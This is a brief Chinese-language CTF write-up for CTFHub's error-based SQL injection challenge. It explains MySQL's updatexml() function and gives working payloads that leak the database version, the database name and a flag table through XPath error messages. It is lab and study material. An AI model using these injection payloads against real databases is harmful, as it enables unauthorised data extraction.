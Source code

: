 # CTFHUB_报错注入

## 题目内容

![image-20210822203038754](/home/adian/note/Study_Note/网络安全/CTF/pic/16.png)

## WriteUp
此题只会返回查询正确或错误

使用updatexml


>首先了解下updatexml()函数
>
>UPDATEXML (XML_document, XPath_string, new_value);
>第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
>第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
>第三个参数：new_value，String格式，替换查找到的符合条件的数据
>作用：改变文档中符合条件的节点的值
>改变XML_document中符合XPATH_string的值而我们的注入语句为：
>updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
>其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出
>1
>ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'


```
1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

查询到结果为sqli

为了方便，不做information_schema的查询了，直接查询flag

```
1 and updatexml(1,concat(0x7e,(select flag from flag),0x7e),1)
```

得到flag
